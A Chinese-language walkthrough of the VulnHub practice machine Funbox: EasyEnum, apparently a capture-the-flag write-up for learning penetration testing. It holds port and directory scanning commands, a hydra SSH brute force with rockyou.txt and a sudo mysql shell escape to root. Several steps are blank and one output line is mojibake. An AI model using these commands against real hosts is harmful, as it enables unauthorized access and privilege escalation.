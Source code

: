 # 原创
：  VulnHub渗透测试实战靶场 - FUNBOX: EASYENUM

# VulnHub渗透测试实战靶场 - FUNBOX: EASYENUM

#### VulnHub渗透测试实战靶场 - FUNBOX: EASYENUM

## 题目描述

```
Boot2root in 6 steps for script-kiddies.

Timeframe to root this box: 20 mins to never ever. It's on you.

HINTS:
Enum without sense, costs you too many time:
  1.Use "Daisys best friend" for information gathering.
  2.Visit "Karla at home".
  3.John and Hydra loves only rockyou.txt
  4.Enum/reduce the users to brute force with or brute force the rest of your life.

This works better with VirtualBox rather than VMware

```

## 环境下载

> 



## FUNBOX: EASYENUM靶机搭建

> 

- 将下载好的靶机环境，导入 VritualBox，设置为 Host-Only 模式- 将 VMware 中桥接模式网卡设置为 VritualBox 的 Host-only


> 



## 渗透测试

### 信息搜集

> 
用 Nmap 扫描一下目标靶机的端口信息：`sudo nmap -sS -A -Pn 192.168.56.115`，发现开放了 `22、80、110、143` 四个端口


> 
用 dirb 扫描一下 80 端口 web 目录：`dirb http://192.168.56.115`


### 漏洞挖掘

> 



```
Allow: Enum_this_Box

æ ¹å¯†ç æ˜¯ç”¨æˆ·å¯†ç çš„ç»„åˆï¼šharrysallygoatoraclelissy 

```

> 



```
gobuster dir -u http://192.168.56.115 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html.txt

```

### getshell

> 



### 提权

> 



> 



```
hydra -l username -P rockyou.txt -V 192.168.56.115 ssh

```

> 



```
sudo /usr/bin/mysql -e '\! /bin/sh'

```
